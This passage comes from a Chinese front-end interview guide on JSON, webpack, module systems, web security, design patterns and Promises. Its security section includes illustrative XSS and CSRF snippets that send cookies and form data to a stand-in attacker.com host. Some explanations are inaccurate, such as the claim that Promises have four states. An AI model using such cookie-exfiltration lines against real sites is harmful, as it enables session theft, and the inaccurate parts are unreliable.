- `JSON`相对于 XML 来说，数据的体积小，因为 JSON 使用了较简洁的语法，所以传输的速度更快。

2.  数据交互方面：

- `JSON`与 JavaScript 的交互更加方便，因为 JSON 数据可以直接被 JavaScript 解析和处理，无需额外的转换步骤。
- `XML`需要使用 DOM 操作来解析和处理数据，相对而言更复杂一些。

3.  数据描述方面：

- `XML`对数据的描述性较强，它使用标签来标识数据的结构和含义，可以自定义标签名，使数据更具有可读性和可扩展性。
- `JSON`的描述性较弱，它使用简洁的键值对表示数据，适合于简单的数据结构和传递。

4.  传输速度方面：

- `JSON`的解析速度要快于`XML`，因为`JSON`的语法更接近 JavaScript 对象的表示，JavaScript 引擎能够更高效地解析 JSON 数据。

需要根据具体的需求和使用场景选择合适的数据格式，一般来说，如果需要简单、轻量级的数据交互，并且与 JavaScript 紧密集成，可以选择 JSON。而如果需要较强的数据描述性和扩展性，或者需要与其他系统进行数据交互，可以选择 XML。

### 15 谈谈你对 webpack 的看法

Webpack 是一个功能强大的模块打包工具，它在现代 Web 开发中扮演着重要的角色。以下是对 Webpack 的看法：

1.  **模块化开发**：Webpack 以模块化的方式管理项目中的各种资源，包括 JavaScript、CSS、图片、字体等。它能够将这些资源视为模块，并根据模块之间的依赖关系进行打包，使代码结构更清晰、可维护性更高。
2.  **强大的打包能力**：Webpack 具有强大的打包能力，能够将项目中的多个模块打包成一个或多个静态资源文件。它支持各种模块加载器和插件，可以处理各种类型的资源文件，并且能够进行代码压缩、文件合并、按需加载等优化操作，以提高应用的性能和加载速度。
3.  **生态系统丰富**：Webpack 拥有一个庞大的插件生态系统，可以满足各种项目的需求。通过使用各种插件，我们可以实现代码的优化、资源的压缩、自动化部署等功能，大大提升了开发效率。
4.  **开发工具支持**：Webpack 提供了开发工具和开发服务器，支持热模块替换（Hot
    Module
    Replacement）等功能，使开发过程更加高效和便捷。它能够实时监听文件的变化并自动重新编译和刷新页面，极大地提升了开发体验。

5.  **社区活跃**：Webpack 拥有一个庞大的社区，开发者们积极分享各种有用的插件和工具，提供了大量的学习资源和解决方案。通过与社区的交流和学习，我们可以更好地了解 Webpack 的使用技巧和最佳实践。

> 总的来说，Webpack 是一个非常强大和灵活的模块打包工具，它在现代 Web 开发中发挥着重要作用。通过 Webpack，我们可以更好地组织和管理项目代码，提高开发效率和代码质量，同时也能够享受到丰富的插件和工具支持。

### 16 说说你对 AMD 和 Commonjs 的理解

对于 AMD（Asynchronous Module Definition）和 CommonJS 的理解如下：

**1. AMD（异步模块定义）：**

- AMD 是一种用于浏览器端的模块定义规范。
- 它支持异步加载模块，允许在模块加载完成后执行回调函数。
- AMD 推荐的风格是通过`define`函数定义模块，并通过返回一个对象来暴露模块的接口。
- 典型的 AMD 实现是 RequireJS。

**2. CommonJS：**

- CommonJS 是一种用于服务器端的模块定义规范，Node.js 采用了这个规范。
- 它使用同步加载模块的方式，即只有模块加载完成后才能执行后续操作。
- CommonJS 的风格是通过对`module.exports`或`exports`的属性赋值来暴露模块的接口。
- CommonJS 适用于服务器端的模块加载，因为在服务器端文件的读取是同步的，不会影响性能。

**总结：**

- AMD 和 CommonJS 是两种不同的模块定义规范，分别适用于浏览器端和服务器端的模块加载。
- AMD 采用异步加载模块的方式，适用于浏览器环境，允许并行加载多个模块，适用于复杂的模块依赖关系。
- CommonJS 采用同步加载模块的方式，适用于服务器环境，因为在服务器端文件的读取是同步的。
- 在实际开发中，可以根据项目的需求和运行环境选择使用 AMD 或 CommonJS 规范来组织和加载模块。

AMD 示例代码：

```js
// 模块定义
define(['moduleA', 'moduleB'], function (moduleA, moduleB) {
  // 模块代码
  var foo = moduleA.foo();
  var bar = moduleB.bar();
  return {
    baz: function () {
      console.log(foo + bar);
    },
  };
});

// 模块加载
require(['myModule'], function (myModule) {
  myModule.baz(); // 调用模块方法
});
```

CommonJS 示例代码：

```js
// 模块定义
// moduleA.js
exports.foo = function () {
  return 'Hello';
};

// moduleB.js
exports.bar = function () {
  return 'World';
};

// 主程序
// main.js
var moduleA = require('./moduleA');
var moduleB = require('./moduleB');

var foo = moduleA.foo();
var bar = moduleB.bar();
console.log(foo + ' ' + bar);
```

在浏览器环境下，可以使用 RequireJS 作为 AMD 规范的实现库。在 Node.js 环境下，CommonJS 模块加载是内置的，无需使用额外的库。以上示例代码是在浏览器端和 Node.js 环境中分别使用 AMD 和 CommonJS 规范加载模块的简单示例。

### 17 常见 web 安全及防护原理

常见 Web 安全问题及对应的防护原理如下所示，并附上相应的示例代码：

**1. SQL 注入**

就是通过把 `SQL` 命令插入到 `Web` 表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的 SQL 命令

- 总的来说有以下几点

  - 永远不要信任用户的输入，要对用户的输入进行校验，可以通过正则表达式，或限制长度，对单引号和双`"-"`进行转换等
  - 永远不要使用动态拼装 SQL，可以使用参数化的`SQL`或者直接使用存储过程进行数据查询存取
  - 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接
  - 不要把机密信息明文存放，请加密或者`hash`掉密码和敏感的信息

- 防护原理：

  - 使用参数化查询或预编译语句
  - 使用 ORM 框架或查询构建器
  - 对用户输入进行输入验证和过滤

示例代码：

```js
// 使用参数化查询
const sql = 'SELECT * FROM users WHERE username = ? AND password = ?';
db.query(sql, [username, password], (err, result) => {
  // 处理查询结果
});

// 使用预编译语句
const sql = 'SELECT * FROM users WHERE username = ? AND password = ?';
const stmt = db.prepare(sql);
stmt.run(username, password, (err, result) => {
  // 处理查询结果
});
```

**2. 跨站脚本攻击 (XSS)**

> `Xss(cross-site scripting)` 攻击指的是攻击者往 `Web` 页面里插入恶意 `html` 标签或者 `javascript` 代码。比如：攻击者在论坛中放一个看似安全的链接，骗取用户点击后，窃取 `cookie` 中的用户私密信息；或者攻击者在论坛中加一个恶意表单，当用户提交表单的时候，却把信息传送到攻击者的服务器中，而不是用户原本以为的信任站点

- 防护原理：
  - 对用户输入进行合适的转义和过滤
  - 使用安全的模板引擎或自动转义函数
  - 使用 HTTP 头部中的 Content Security Policy (CSP)

示例代码：

```js
// 对用户输入进行转义
function escapeHTML(input) {
  return input.replace(/</g, '&lt;').replace(/>/g, '&gt;');
}
// 使用安全的模板引擎
const template = Handlebars.compile('{{data}}');
const html = template({
  data: userInput,
});

// 使用Content Security Policy (CSP)
res.setHeader('Content-Security-Policy', "script-src 'self'");
```

**3. 跨站请求伪造 (CSRF)**

- 防护原理：
  - 使用 `CSRF Token` 进行验证
  - 验证请求来源
  - 验证 `HTTP Referer` 头

示例代码：

```js
// 使用CSRF Token进行验证
app.use((req, res, next) => {
  res.locals.csrfToken = generateCSRFToken();
  next();
});

// 验证请求来源
if (req.headers.origin !== 'https://example.com') {
  // 请求不是来自预期的来源，拒绝处理
}

// 验证HTTP Referer头
if (req.headers.referer !== 'https://example.com/') {
  // 请求不是来自预期的来源，拒绝处理
}
```

**XSS 与 CSRF 有什么区别吗？**

XSS（跨站脚本攻击）和
CSRF（跨站请求伪造）是两种不同类型的安全威胁，其区别如下：

**XSS（跨站脚本攻击）：**

- 目标：获取用户的敏感信息、执行恶意代码。
- 攻击方式：攻击者向受信任网站注入恶意脚本代码，使用户的浏览器执行该恶意脚本。
- 攻击原理：XSS 攻击利用了网页应用对用户输入的信任，通过注入恶意脚本代码，使其在用户的浏览器中执行。
- 防护措施：对用户输入进行合适的转义和过滤，使用安全的模板引擎或自动转义函数，使用 Content
  Security Policy（CSP）等。

**CSRF（跨站请求伪造）：**

- 目标：利用用户的身份完成恶意操作，而不是获取敏感信息。
- 攻击方式：攻击者诱使用户在受信任网站的身份下执行恶意操作，利用用户在受信任网站上的身份发送恶意请求。
- 攻击原理：CSRF 攻击利用了网页应用对用户已认证身份的信任，通过伪造请求，利用用户的身份在受信任网站上执行恶意操作。
- 防护措施：使用 CSRF Token 进行验证，验证请求来源、HTTP
  Referer 头，双重提交 Cookie 验证等。

**总结：**

- XSS 攻击注重利用网页应用对用户输入的信任，目标是获取用户的敏感信息和执行恶意代码。
- CSRF 攻击注重利用网页应用对用户已认证身份的信任，目标是代替用户完成指定的动作。

请注意，为了有效地防止 XSS 和 CSRF 攻击，应采用综合的安全措施，并进行定期的安全审查和测试。

**XSS 攻击获取 Cookie 的示例**

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
  <head>
    <title>XSS Attack Demo</title>
  </head>

  <body>
    <h1>XSS Attack Demo</h1>
    <div id="content"></div>
    <script src="payload.js"></script>
  </body>
</html>
```

```js
// payload.js
const maliciousScript = `
    const xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://attacker.com/steal-cookie?cookie=' + document.cookie, true);
    xhr.send();
  `;

document.getElementById('content').innerHTML = maliciousScript;
```

在上述示例中，恶意脚本 `payload.js` 被注入到页面中。该脚本通过 `XMLHttpRequest` 发送 GET 请求，将页面中的 Cookie 信息发送给攻击者控制的服务器。

**CSRF 攻击的示例**

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
  <head>
    <title>CSRF Attack Demo</title>
  </head>

  <body>
    <h1>CSRF Attack Demo</h1>
    <form id="transfer-form" action="http://bank.com/transfer" method="POST">
      <input type="hidden" name="amount" value="10000" />
      <input type="submit" value="Transfer" />
    </form>
    <script src="payload.js"></script>
  </body>
</html>
```

```js
// payload.js
const maliciousScript = `
    const form = document.getElementById('transfer-form');
    form.action = 'http://attacker.com/steal-data';
    form.submit();
  `;

eval(maliciousScript);
```

在上述示例中，恶意脚本 `payload.js` 被执行。该脚本修改了表单 `transfer-form` 的目标地址为攻击者控制的服务器，并提交表单。当用户点击\"Transfer\"按钮时，实际上会向攻击者服务器发送用户的敏感数据。

请注意，以上示例仅为了说明 XSS 攻击和 CSRF 攻击的原理，并非真实的攻击代码。在实际开发中，应该采取相应的防护措施来预防这些安全威胁，如输入验证、输出编码、使用 CSRF 令牌等。

**4. 文件上传漏洞**

- 防护原理：
- 验证文件类型和大小
- 存储上传的文件在非 Web 可访问目录下
- 生成唯一且安全的文件名

示例代码：

```js
// 验证文件类型和大小
const allowedFileTypes = ['image/jpeg', 'image/png'];
const maxFileSize = 5 * 1024 * 1024; // 5MB

if (!allowedFileTypes.includes(file.mimetype) || file.size > maxFileSize) {
  // 文件类型不合法或大小超过限制，拒绝上传
}
```

**5. 会话劫持和会话固定**

- 防护原理：

  - 使用安全的会话管理机制（如使用 HTTPS、使用 HTTP
    Only 和 Secure 标志的 Cookie）

  - 生成随机且复杂的会话 ID
  - 定期更新会话 ID

示例代码：

```js
// 设置HTTP Only和Secure标志的会话Cookie
res.cookie('sessionID', sessionID, {
  httpOnly: true,
  secure: true,
});

// 生成随机且复杂的会话ID
const sessionID = generateSessionID();

// 定期更新会话ID
setInterval(() => {
  // 生成新的会话ID
  const newSessionID = generateSessionID();
  // 更新会话ID
  req.sessionID = newSessionID;
}, 30 * 60 * 1000); // 30分钟更新一次会话ID
```

**6. 点击劫持**

- 防护原理：
- 使用 `X-Frame-Options`响应头
- 使用 `Content Security Policy (CSP)`
- 使用 `Framebusting` 脚本

示例代码：

```js
// 使用X-Frame-Options响应头
res.setHeader('X-Frame-Options', 'DENY');

// 使用Content Security Policy (CSP)
res.setHeader('Content-Security-Policy', 'frame-ancestors "none"');

// 使用Framebusting脚本
if (window.top !== window.self) {
  window.top.location = window.self.location;
}
```

**7. 不安全的重定向和跳转**

- 防护原理：
- 对重定向 URL 进行白名单验证
- 验证跳转请求的合法性
- 使用 HTTP Only 和 Secure 标志的 Cookie

示例代码：

```js
// 对重定向URL进行白名单验证
const whitelist = ['https://example.com', 'https://example.net'];
if (whitelist.includes(redirectURL)) {
  res.redirect(redirectURL);
} else {
  // 非法的重定向URL，拒绝跳转
}

// 验证跳转请求的合法性
const referer = req.headers.referer;
if (referer && referer.startsWith('https://example.com')) {
  res.redirect(redirectURL);
} else {
  // 非法的跳转请求，拒绝跳转
}

// 使用HTTP Only和Secure标志的Cookie
res.cookie('sessionID', sessionID, {
  httpOnly: true,
  secure: true,
});
```

### 18 用过哪些设计模式？

当被问到你用过哪些设计模式时，你可以列举出你在前端开发中常使用的设计模式。以下是几个常见的设计模式，以及它们的优缺点、适用场景和示例代码：

#### 1. 工厂模式（Factory Pattern）：

- 优点：封装了对象的创建过程，降低了耦合性，提供了灵活性和可扩展性。
- 缺点：增加了代码的复杂性，需要创建工厂类。
- 适用场景：当需要根据不同条件创建不同对象时，或者需要隐藏对象创建的细节时，可以使用工厂模式。

示例代码：

```js
class Button {
  constructor(text) {
    this.text = text;
  }
  render() {
    console.log(`Rendering button with text: ${this.text}`);
  }
}

class ButtonFactory {
  createButton(text) {
    return new Button(text);
  }
}

const factory = new ButtonFactory();
const button = factory.createButton('Submit');
button.render(); // Output: Rendering button with text: Submit
```

#### 2. 单例模式（Singleton Pattern）：

- 优点：确保一个类只有一个实例，节省系统资源，提供全局访问点。
- 缺点：可能引入全局状态，不利于扩展和测试。
- 适用场景：当需要全局唯一的对象实例时，例如日志记录器、全局配置对象等，可以使用单例模式。

示例代码：

```js
class Logger {
  constructor() {
    if (Logger.instance) {
      return Logger.instance;
    }
    Logger.instance = this;
  }
  log(message) {
    console.log(`Logging: ${message}`);
  }
}

const logger1 = new Logger();
const logger2 = new Logger();

console.log(logger1 === logger2); // Output: true
```

#### 3. 观察者模式（Observer Pattern）：

- 优点：实现了对象之间的松耦合，支持广播通信，当一个对象状态改变时，可以通知依赖它的其他对象进行更新。
- 缺点：可能导致性能问题和内存泄漏，需要合理管理观察者列表。
- 适用场景：当需要实现对象之间的一对多关系，一个对象的改变需要通知其他多个对象时，可以使用观察者模式。

示例代码：

```js
class Subject {
  constructor() {
    this.observers = [];
  }
  addObserver(observer) {
    this.observers.push(observer);
  }
  removeObserver(observer) {
    const index = this.observers.indexOf(observer);
    if (index !== -1) {
      this.observers.splice(index, 1);
    }
  }
  notify(message) {
    this.observers.forEach((observer) => observer.update(message));
  }
}

class Observer {
  update(message) {
    console.log(`Received message: ${message}`);
  }
}

const subject = new Subject();
const observer1 = new Observer();
const observer2 = new Observer();

subject.addObserver(observer1);
subject.addObserver(observer2);
subject.notify('Hello, observers!'); // Output
```

**4. 发布订阅模式（Publish-Subscribe Pattern）：**

- 优点：解耦了发布者和订阅者，使它们可以独立变化。增加了代码的灵活性和可维护性。
- 缺点：可能会导致发布者过度发布消息，造成性能问题。订阅者需要订阅和取消订阅相关的逻辑。
- 适用场景：当存在一对多的关系，一个对象的状态变化需要通知多个其他对象时，可以使用发布订阅模式。

示例代码：

```js
class PubSub {
  constructor() {
    this.subscribers = {};
  }
  subscribe(event, callback) {
    if (!this.subscribers[event]) {
      this.subscribers[event] = [];
    }
    this.subscribers[event].push(callback);
  }
  unsubscribe(event, callback) {
    const subscribers = this.subscribers[event];
    if (subscribers) {
      this.subscribers[event] = subscribers.filter((cb) => cb !== callback);
    }
  }
  publish(event, data) {
    const subscribers = this.subscribers[event];
    if (subscribers) {
      subscribers.forEach((callback) => callback(data));
    }
  }
}

// 创建发布订阅对象
const pubsub = new PubSub();

// 订阅事件
const callback1 = (data) => console.log('Subscriber 1:', data);
const callback2 = (data) => console.log('Subscriber 2:', data);
pubsub.subscribe('event1', callback1);
pubsub.subscribe('event1', callback2);

// 发布事件
pubsub.publish('event1', 'Hello, world!');

// 取消订阅事件
pubsub.unsubscribe('event1', callback2);

// 再次发布事件
pubsub.publish('event1', 'Hello again!');
```

在上述示例中， `PubSub` 是发布订阅的实现类，它维护一个订阅者列表
`subscribers` ，用于存储不同事件的订阅者列表。通过 `subscribe`

方法订阅事件，将回调函数添加到对应事件的订阅者列表中；通过 `unsubscribe`

方法取消订阅事件，从对应事件的订阅者列表中移除回调函数；通过 `publish`

方法发布事件，遍历对应事件的订阅者列表，依次执行回调函数。通过发布订阅模式，发布者和订阅者之间解耦，可以实现松散耦合的组件间通信。

发布订阅模式适用于许多场景，如事件驱动的系统、消息队列、UI 组件间的通信等，可以实现组件之间的解耦和灵活性。

**发布订阅模式（Publish-Subscribe Pattern）和观察者模式（Observer
Pattern）是两种常见的设计模式，它们有一些相似之处，但也存在一些区别。**

相似之处：

- 都用于实现对象之间的消息通信和事件处理。
- 都支持解耦，让发布者和订阅者（观察者）之间相互独立。

区别：

- 关注点不同：观察者模式关注的是一个主题对象（被观察者）和多个观察者对象之间的关系。当主题对象的状态发生变化时，它会通知所有观察者对象进行更新。而发布订阅模式关注的是发布者和订阅者之间的关系，发布者将消息发送到一个中心调度器（或者称为事件总线），然后由调度器将消息分发给所有订阅者。
- 中间件存在与否：发布订阅模式通常需要一个中间件（调度器或事件总线）来管理消息的发布和订阅，这样发布者和订阅者之间的通信通过中间件进行。而观察者模式则直接在主题对象和观察者对象之间进行通信，没有中间件的参与。
- 松散耦合程度不同：观察者模式中，主题对象和观察者对象之间是直接关联的，主题对象需要知道每个观察者对象的存在。而在发布订阅模式中，发布者和订阅者之间并不直接关联，它们只与中间件进行通信，发布者和订阅者之间的耦合更加松散。

观察者模式示例：

```js
class Subject {
  constructor() {
    this.observers = [];
  }
  addObserver(observer) {
    this.observers.push(observer);
  }
  removeObserver(observer) {
    this.observers = this.observers.filter((obs) => obs !== observer);
  }
  notify(data) {
    this.observers.forEach((observer) => observer.update(data));
  }
}

class Observer {
  update(data) {
    console.log('Received data:', data);
  }
}

// 创建主题对象
const subject = new Subject();

// 创建观察者对象
const observer1 = new Observer();
const observer2 = new Observer();

// 添加观察者
subject.addObserver(observer1);
subject.addObserver(observer2);

// 发送通知
subject.notify('Hello, observers!');
```

发布订阅模式示例：

```js
class EventBus {
  constructor() {
    this.subscribers = {};
  }
  subscribe(event, callback) {
    if (!this.subscribers[event]) {
      this.subscribers[event] = [];
    }
    this.subscribers[event].push(callback);
  }
  unsubscribe(event, callback) {
    const subscribers = this.subscribers[event];
    if (subscribers) {
      this.subscribers[event] = subscribers.filter((cb) => cb !== callback);
    }
  }
  publish(event, data) {
    const subscribers = this.subscribers[event];
    if (subscribers) {
      subscribers.forEach((callback) => callback(data));
    }
  }
}

// 创建事件总线对象
const eventBus = new EventBus();

// 订阅事件
eventBus.subscribe('message', (data) => {
  console.log('Received message:', data);
});

// 发布事件
eventBus.publish('message', 'Hello, subscribers!');
```

在上述示例中，观察者模式中的 Subject 类相当于发布订阅模式中的 EventBus 类，Observer 类相当于订阅者（观察者），notify 方法相当于 publish 方法，update 方法相当于订阅者接收到事件后的回调函数。

观察者模式和发布订阅模式都是常见的用于实现事件处理和消息通信的设计模式，根据实际场景和需求选择合适的模式进行使用。观察者模式更加简单直接，适用于一对多的关系，而发布订阅模式更加灵活，可以支持多对多的关系，并且通过中间件来解耦发布者和订阅者。

**4. 原型模式（Prototype Pattern）：**

- 优点：通过克隆现有对象来创建新对象，避免了频繁的对象创建过程，提高了性能。
- 缺点：需要正确设置原型对象和克隆方法，可能引入深拷贝或浅拷贝的问题。
- 适用场景：当创建对象的成本较大且对象之间相似度较高时，可以使用原型模式来复用已有对象。

示例代码：

```js
class Shape {
  constructor() {
    this.type = '';
  }
  clone() {
    return Object.create(this);
  }
  draw() {
    console.log(`Drawing a ${this.type}`);
  }
}

const circlePrototype = new Shape();
circlePrototype.type = 'Circle';

const squarePrototype = new Shape();
squarePrototype.type = 'Square';

const circle = circlePrototype.clone();
circle.draw(); // Output: Drawing a Circle

const square = squarePrototype.clone();
square.draw(); // Output: Drawing a Square
```

**6. 装饰者模式（Decorator Pattern）**

- 优点：动态地给对象添加新的功能，避免了使用子类继承的方式导致类爆炸的问题。
- 缺点：增加了代码的复杂性，需要理解和管理装饰器的层次结构。
- 适用场景：当需要在不修改现有对象结构的情况下，动态地添加功能或修改行为时，可以使用装饰者模式。

示例代码：

```js
class Component {
  operation() {
    console.log('Component operation');
  }
}

class Decorator {
  constructor(component) {
    this.component = component;
  }
  operation() {
    this.component.operation();
  }
}

class ConcreteComponent extends Component {
  operation() {
    console.log('ConcreteComponent operation');
  }
}

class ConcreteDecoratorA extends Decorator {
  operation() {
    super.operation();
    console.log('ConcreteDecoratorA operation');
  }
}

class ConcreteDecoratorB extends Decorator {
  operation() {
    super.operation();
    console.log('ConcreteDecoratorB operation');
  }
}

const component = new ConcreteComponent();
const decoratorA = new ConcreteDecoratorA(component);
const decoratorB = new ConcreteDecoratorB(decoratorA);

decoratorB.operation();
// Output:
// Component operation
// ConcreteComponent operation
// ConcreteDecoratorA operation
// ConcreteDecoratorB operation
```

**7. 适配器模式（Adapter Pattern）：**

- 优点：允许不兼容接口的对象协同工作，提高代码的复用性和灵活性。
- 缺点：增加了代码的复杂性，需要理解和管理适配器的转换过程。
- 适用场景：当需要将一个类的接口转换成客户端所期望的另一个接口时，可以使用适配器模式。

示例代码：

```js
class Target {
  request() {
    console.log('Target request');
  }
}

class Adaptee {
  specificRequest() {
    console.log('Adaptee specificRequest');
  }
}

class Adapter extends Target {
  constructor(adaptee) {
    super();
    this.adaptee = adaptee;
  }
  request() {
    this.adaptee.specificRequest();
  }
}

const target = new Target();
target.request();
// Output: Target request

const adaptee = new Adaptee();
const adapter = new Adapter(adaptee);
adapter.request();
// Output: Adaptee specificRequest
```

在上述示例中， `Target` 定义了客户端所期望的接口， `Adaptee`

是一个已有的类，它的接口与 `Target` 不兼容。适配器 `Adapter` 继承自
`Target` ，并在其内部持有一个 `Adaptee` 的引用，通过适配器的 `request`

方法调用 `Adaptee` 的 `specificRequest`

方法，从而实现了对不兼容接口的适配。客户端可以通过调用适配器的 `request`

方法来使用 `Adaptee` 的功能。

适配器模式可以用于许多场景，例如在使用第三方库时需要将其接口转换成符合自己代码规范的接口，或者在对旧系统进行重构时需要兼容旧代码和新代码之间的差异。

### 19 为什么要有同源限制？

> - 同源策略指的是：协议，域名，端口相同，同源策略是一种安全协议
> - 举例说明：比如一个黑客程序，他利用 `Iframe` 把真正的银行登录页面嵌到他的页面上，当你使用真实的用户名，密码登录时，他的页面就可以通过 `Javascript` 读取到你的表单中 `input` 中的内容，这样用户名，密码就轻松到手了。

同源限制是为了保护用户的隐私和安全而存在的。它的主要目的是防止恶意网站利用客户端脚本对其他网站的信息进行读取和操作，从而避免信息泄露和恶意攻击。

同源策略通过限制来自不同源的网页之间的交互，确保只有同源的网页可以相互访问彼此的资源。同源策略要求协议、域名和端口必须完全相同才能实现同源。如果不满足同源条件，浏览器会禁止跨域请求和操作。

**同源限制的作用包括但不限于：**

1.  **防止跨站点脚本攻击（XSS）**：同源限制可以防止恶意网站通过跨域脚本注入攻击来获取用户敏感信息或操作用户的账户。
2.  **防止跨站请求伪造（CSRF）**：同源限制可以防止恶意网站伪造用户请求，以用户的身份执行非法操作。
3.  **保护用户隐私**：同源限制可以防止其他网站通过跨域方式获取用户在当前网站的敏感信息。

同源限制通过浏览器的安全策略实现，确保在不同源的网页之间存在一定的隔离性，提高用户的安全性和隐私保护。但同时也给一些特定的跨域场景带来了限制，因此在需要跨域访问的情况下，可以使用跨域技术（如跨域资源共享 CORS、JSONP 等）来解决问题。

示例代码中提到的黑客程序利用了跨域嵌套 iframe 的方式，通过读取用户输入的信息来进行攻击。同源限制可以防止这种攻击，因为该黑客程序的域名与银行登录页面的域名不同，无法通过跨域访问获取用户输入的敏感信息。

### 20 offsetWidth/offsetHeight, clientWidth/clientHeight 与 scrollWidth/scrollHeight 的区别

- `offsetWidth/offsetHeight`：返回元素的总宽度/高度，包括内容宽度、内边距和边框宽度。该值包含了元素的完整尺寸，包括隐藏的部分和滚动条占用的空间。
- `clientWidth/clientHeight`：返回元素的可视区域宽度/高度，即内容区域加上内边距，但不包括滚动条的宽度。该值表示元素内部可见的部分尺寸。
- `scrollWidth/scrollHeight`：返回元素内容的实际宽度/高度，包括内容区域的尺寸以及溢出内容的尺寸。如果内容没有溢出，则与`clientWidth/clientHeight`的值相同。

**区别总结：**

- `offsetWidth/offsetHeight`包含了元素的边框和滚动条占用的空间，提供了元素的完整尺寸。
- `clientWidth/clientHeight`只包含元素的内容区域和内边距，不包括滚动条，表示了元素内部可见的部分尺寸。
- `scrollWidth/scrollHeight`包含了元素内容的实际宽度/高度，包括溢出内容的尺寸。

示例代码：

<demo20/>


<<<./case/20-1.vue

在上面的示例中， `box` 元素的尺寸为 200px ×
200px，有 20px 的内边距和 2px 的边框。内部的 `content` 元素的尺寸为 `400px × 400px` ，超出了父元素的尺寸。通过不同的属性获取到的值可以看到它们的差异。

**小结**

- `offsetWidth/offsetHeight`返回值包含**content + padding +
  border**，效果与 `e.getBoundingClientRect()` 相同

- `clientWidth/clientHeight`返回值只包含**content +
  padding**，如果有滚动条，也**不包含滚动条**

- `scrollWidth/scrollHeight`返回值包含**content + padding +
  溢出内容的尺寸**

### 21 javascript 有哪些方法定义对象

- 对象字面量： `var obj = {};` 原型是`Object.prototype`
- 构造函数： `var obj = new Object();`
- `Object.create()`: `var obj = Object.create(Object.prototype);`
  - `Object.create(null)` 没有原型
  - `Object.create({...})` 可指定原型

**1. 字面量表示法（Literal Notation）：**

使用对象字面量 `{}` 直接创建对象，并在其中定义属性和方法。

```js
const person = {
  name: 'poetry',
  age: 30,
  sayHello: function () {
    console.log('Hello!');
  },
};
```

**2. 构造函数（Constructor）：**

使用构造函数创建对象，可以定义一个构造函数，然后使用 `new`

关键字实例化对象。

```js
function Person(name, age) {
  this.name = name;
  this.age = age;
  this.sayHello = function () {
    console.log('Hello!');
  };
}

const person = new Person('poetry', 30);
```

**3. `Object.create()` 方法：**

使用 `Object.create()` 方法创建一个新对象，并将指定的原型对象设置为新对象的原型。可以传入一个原型对象作为参数，也可以传入 `null` 作为参数来创建没有原型的对象。

```js
const personPrototype = {
  sayHello: function () {
    console.log('Hello!');
  },
};

const person = Object.create(personPrototype);
person.name = 'poetry';
person.age = 30;
```

**4. `class` 关键字（ES6 引入）：**

使用 `class` 关键字可以定义类，并通过 `new` 关键字实例化对象。

```js
class Person {
  constructor(name, age) {
    this.name = name;
    this.age = age;
  }

  sayHello() {
    console.log('Hello!');
  }
}

const person = new Person('poetry', 30);
```

**5. 工厂函数（Factory Function）：**

使用一个函数来封装创建对象的逻辑，并返回新创建的对象。

```js
function createPerson(name, age) {
  const person = {};
  person.name = name;
  person.age = age;
  person.sayHello = function () {
    console.log('Hello!');
  };
  return person;
}

const person = createPerson('poetry', 30);
```

**6. 原型（Prototype）：**

在 JavaScript
中，每个对象都有一个原型（prototype），可以通过原型链来继承属性和方法。

```js
function Person(name, age) {
  this.name = name;
  this.age = age;
}

Person.prototype.sayHello = function () {
  console.log('Hello!');
};

const person = new Person('poetry', 30);
```

**7. `Object.assign()` 方法：**

使用 `Object.assign()`

方法可以将一个或多个源对象的属性复制到目标对象中，从而创建一个新对象。

```js
const person1 = {
  name: 'poetry',
  age: 30,
};

const person2 = {
  sayHello: function () {
    console.log('Hello!');
  },
};

const person = Object.assign({}, person1, person2);
```

### 22 常见兼容性问题？

常见的兼容性问题有很多，以下列举一些常见的问题：

1.  **浏览器的盒模型差异**：不同浏览器对盒模型的解析存在差异，导致元素的尺寸计算不一致。可以使用 CSS 盒模型属性（`box-sizing`）来进行控制。
2.  **浏览器对 CSS 属性的支持差异**：不同浏览器对 CSS 属性的支持程度不同，某些属性在某些浏览器中可能不起作用或解析不正确。需要使用 CSS 前缀（Vendor
    Prefix）或使用兼容性方案来处理。

3.  **JavaScript API 的差异**：不同浏览器对 JavaScript
    API 的支持存在差异，某些方法、属性或事件在某些浏览器中可能不可用或行为不同。需要进行兼容性检测并使用替代方案或进行特定的处理。

4.  **样式的兼容性**：不同浏览器对样式的解析存在差异，可能导致页面显示不一致。需要针对不同浏览器进行样式的调整和优化。
5.  **图片格式的兼容性**：不同浏览器对图片格式的支持存在差异，某些格式在某些浏览器中可能不被支持或显示异常。需要根据需求选择合适的图片格式，并进行兼容性处理。
6.  **事件处理的差异**：不同浏览器对事件的处理存在差异，例如事件对象的属性、方法、坐标获取等方面。需要进行兼容性处理，使用合适的方法来获取事件相关信息。

示例代码：

```js
// 获取鼠标坐标
function getMousePosition(event) {
  var x, y;
  if (event.pageX || event.pageY) {
    x = event.pageX;
    y = event.pageY;
  } else {
    x =
      event.clientX +
      document.body.scrollLeft +
      document.documentElement.scrollLeft;
    y =
      event.clientY +
      document.body.scrollTop +
      document.documentElement.scrollTop;
  }
  return {
    x: x,
    y: y,
  };
}

// 兼容性处理
var event = event || window.event;
var mousePosition = getMousePosition(event);

// 获取元素样式
function getComputedStyle(element) {
  if (window.getComputedStyle) {
    return window.getComputedStyle(element, null);
  } else {
    return element.currentStyle;
  }
}

// 兼容性处理
var elementStyle = getComputedStyle(element);

// 图片格式兼容性处理
var img = new Image();
img.src = 'image.png';
img.onerror = function () {
  // 图片加载失败，处理兼容性
};
```

以上示例代码展示了对常见兼容性问题的处理方法，包括事件对象的属性获取、样式获取和图片加载的兼容性处理。在实际开发中，需要根据具体的兼容性问题选择合适的解决方案，并进行兼容性测试和调整。

### 23 说说你对 promise 的了解

依照 `Promise/A+` 的定义， `Promise` 有四种状态：

1.  `pending`（进行中）: 初始状态，表示异步操作尚未完成。当创建一个
    Promise 对象时，它的初始状态就是 pending。

2.  `fulfilled`（已成功）:
    表示异步操作已成功完成，并且返回了一个结果值。一旦 Promise
    的状态转为 fulfilled，就会调用 `onFulfilled` 回调函数。

3.  `rejected`（已失败）: 表示异步操作执行过程中出现了错误或失败。一旦
    Promise 的状态转为 rejected，就会调用 `onRejected` 回调函数。

4.  `settled`（已结束）: 表示 Promise 已经被 resolved（fulfilled 或
    rejected）。在 settled 状态下，Promise
    的状态已经确定，不会再发生变化。

需要注意的是，Promise
的状态转换是单向的，一旦状态确定后就不可再改变。一开始是
pending，然后可以转为 fulfilled 或
rejected，一旦转换为其中一种状态，就会保持在那个状态，无法再次改变。

以下是一个示例代码，演示 Promise 的不同状态和状态转换过程：
